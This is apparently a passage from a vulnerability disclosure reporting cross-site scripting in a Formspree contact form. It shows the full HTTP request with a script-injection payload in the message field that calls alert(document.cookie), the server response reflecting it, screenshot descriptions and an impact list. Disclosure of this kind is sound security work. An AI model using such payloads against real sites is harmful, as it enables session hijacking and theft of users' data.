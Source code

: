 `POST /f/xbjvyola HTTP/2 Host: formspree.io Content-Type: application/x-www-form-urlencoded Content-Length: 169  first-name=John&last-name=Doe&company=Test&email=test@example.com&phone-number=1234567890&message=asd'); alert(document.cookie); //&other-fields=test`

### Server Response



`HTTP/2 200 OK Date: Tue, 09 Jul 2024 13:54:28 GMT Content-Type: text/html; charset=utf-8 ...  <script type="ca5a2d37d431a14461da3a46-text/javascript"> var appendField = function (form, key, value) {   var textarea = document.createElement('textarea')   textarea.setAttribute('name', key)   textarea.innerHTML = value   textarea.setAttribute('style', 'display:none')   form.appendChild(textarea) }  var success = function (response) {   var form = document.querySelector('#passthrough')    try {     // remove data from sessionStorage     sessionStorage.removeItem('data')     sessionStorage.removeItem('sorted_keys')   } catch (e) { }    // handles the case where user has a button named 'submit'   document.createElement('form').submit.call(form) }  function onloadCallback () {   var form = document.querySelector('#passthrough')   var data = {"_referrer": "https://biocorellc.com/services-capabilities/analytics-ai-machine-learning", "_submission_ip": "127.0.0.1", "_submission_nonce": "17325d6a-bb11-4bf3-984c-9c3ebbfbbd1c", "company": "Test", "email": "test@example.com", "first-name": "John", "form-name": "Data Analytics Form", "ip-address": "52.91.21.77", "last-name": "Doe", "message": "asd'); alert(document.cookie); //", "other-fields": "test", "phone-number": "1234567890"}   var keys = ["first-name", "last-name", "company", "email", "phone-number", "message", "other-fields", "ip-address", "form-name"]    try {     if (sessionStorage.getItem('data')) {       if (Object.keys(data).length > 1) { // if data is valid overwrite current storage         sessionStorage.setItem('data', JSON.stringify(data))         sessionStorage.setItem('sorted_keys', JSON.stringify(keys))       } else {         // passed in blank data except submission_nonce         data = JSON.parse(sessionStorage.getItem('data'))         keys = JSON.parse(sessionStorage.getItem('sorted_keys'))       }     } else {       sessionStorage.setItem('data', JSON.stringify(data))       sessionStorage.setItem('sorted_keys', JSON.stringify(keys))     }   } catch (e) { /* Safari for iOS in incognito mode doesn't provide sessionStorage. */ }    for (var i = 0; i < keys.length; i++) {     var key = keys[i]     if (data.hasOwnProperty(key)) {       appendField(form, key, data[key])       delete data[key]     }   }   for (var key in data) {     if (data.hasOwnProperty(key)) {       appendField(form, key, data[key])     }   }    grecaptcha.render('recaptcha', {     'sitekey': "6LepugcTAAAAAP0ScLpB1xpKEoZx5CdRn4tBtdH4",     'callback': success,     'size': window.innerWidth < 480 ? 'compact' : 'normal',     'hl': "en"   }) } </script>`

### Screenshots

1. **Form Submission:**
    - Screenshot of the contact form filled with dummy data.
2. **Intercepted Request:**
    - Screenshot of the intercepted request in Burp Suite with the modified payload.
3. **Executed Payload:**
    - Screenshot of the alert box showing `document.cookie`.

## Impact

The vulnerability allows an attacker to execute arbitrary JavaScript in the context of the victim's browser. This can lead to:

- Session hijacking
- Theft of sensitive information
- Phishing attacks
- Unauthorized actions on behalf of the user
